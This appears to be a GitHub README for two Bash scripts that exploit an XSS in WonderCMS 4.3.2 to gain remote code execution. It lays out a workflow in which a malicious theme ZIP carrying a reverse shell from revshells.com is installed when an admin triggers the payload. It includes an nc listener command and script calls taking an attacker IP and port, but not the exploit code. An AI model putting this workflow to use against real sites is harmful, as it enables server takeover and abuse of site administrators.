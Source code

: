# WonderCMS 4.3.2 XSS to RCE Exploits

## Overview

These scripts exploit an XSS (Cross-Site Scripting) vulnerability in **WonderCMS 4.3.2** to achieve **Remote Code Execution (RCE)**. The XSS payload, when triggered by the admin, automatically installs a reverse shell on the target server by leveraging a crafted malicious theme module. The reverse shell is obtained from **revshells.com** and executed, granting the attacker remote access to the server.

---

## Table of Contents

- [Prerequisites](#prerequisites)
- [Script 1: Automatic Exploit](#script-1-automatic-exploit)
  - [Features](#features)
  - [Usage](#usage)
- [Script 2: Manual Exploit](#script-2-manual-exploit)
  - [Features](#features-1)
  - [Usage](#usage-1)
- [Notes](#notes)
- [License](#license)

---

## Prerequisites

To successfully run either script, the following tools and conditions are required:

1. **Bash Shell**: Both scripts are written for Linux environments using the Bash shell.
2. **netcat (nc)**: Used to listen for the reverse shell connection.
3. **Python3**: A simple Python HTTP server is used to host the XSS payload.
4. **WonderCMS 4.3.2**: The target must be running a vulnerable version of WonderCMS.
5. **Administrator Interaction**: The payload requires an admin to trigger the XSS, which results in the reverse shell execution.
6. **revshells.com**: The reverse shell payload is downloaded dynamically from revshells.com.

---

## Script 1: Automatic Exploit

### POC

![Pasted image 20241010021603](https://github.com/user-attachments/assets/574eec93-47ee-43b6-88f7-ac232c0b341b)

### Features

This version of the exploit automatically checks for an active `nc` listener, downloads the reverse shell, starts the HTTP server, sends the payload, and waits for the admin to trigger the reverse shell.

- **Automatic Reverse Shell Setup**: Downloads a pre-generated reverse shell from revshells.com.
- **XSS Payload Injection**: Injects an XSS payload in the target's contact form.
- **HTTP Server Management**: Automatically starts a Python HTTP server to host the reverse shell payload.
- **nc Listener Check**: Ensures the listener is running before proceeding.
- **Payload Auto-send**: Sends the payload automatically without user interaction.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script1.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script1.sh http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: The script downloads the reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: The reverse shell script is updated with the attacker's IP and port.
3. **Create ZIP Payload**: A ZIP file containing the reverse shell is created.
4. **Craft XSS Payload**: An XSS payload that installs the reverse shell is generated and injected into the vulnerable contact form.
5. **Auto-Start HTTP Server**: The script starts a Python HTTP server to serve the malicious payload.
6. **Auto-Send Payload**: The XSS payload is sent to the admin automatically.

---

## Script 2: Manual Exploit

### POC

![Pasted image 20241010013048](https://github.com/user-attachments/assets/2ace908d-e74f-43a0-8b25-7677953b731f)

Use the exploit provided by the script in Website field...

![Pasted image 20241010013218](https://github.com/user-attachments/assets/aad7312e-4c6b-4238-987e-888424fb7a2a)


### Features

This version requires the user to manually manage the `nc` listener and the XSS payload triggering. It is more suited for scenarios where automatic processes are not desirable.

- **Manual Reverse Shell Setup**: The user is responsible for ensuring the listener is running.
- **Manual XSS Triggering**: The script provides the malicious link to be sent to the admin, but the payload must be triggered manually.
- **HTTP Server Management**: Starts a Python HTTP server to host the XSS payload.

### Usage

1. Ensure the `nc` listener is running on the specified port:
   ```bash
   nc -nvlp <PORT>
   ```
2. Run the script with the following command:
   ```bash
   ./script2.sh <loginURL> <attacker_IP> <attacker_PORT>
   ```
   Example:
   ```bash
   ./script2.sh http://localhost/loginURL 192.168.29.165 5252
   ```

### Workflow

1. **Download Reverse Shell**: Downloads a reverse shell from `revshells.com`.
2. **Modify the Reverse Shell**: Updates the reverse shell with the attacker's IP and port.
3. **Create ZIP Payload**: Creates a ZIP file containing the reverse shell.
4. **Craft XSS Payload**: Generates an XSS payload that installs the reverse shell.
5. **Display Malicious Link**: Displays the link that needs to be sent to the admin for triggering.
6. **Start HTTP Server**: Starts a Python HTTP server to host the payload.

---

## Notes

- **Admin Interaction**: Both exploits rely on the WonderCMS admin triggering the XSS payload by visiting the vulnerable page. Once triggered, the reverse shell is established with the attacker's machine.
- **Firewall/IDS/IPS**: Be cautious when running these exploits on environments protected by firewalls or Intrusion Detection Systems (IDS) that might block or alert on suspicious activity.
- **Responsible Disclosure**: If you find that a target is vulnerable, always follow ethical guidelines and report the vulnerability to the appropriate parties.

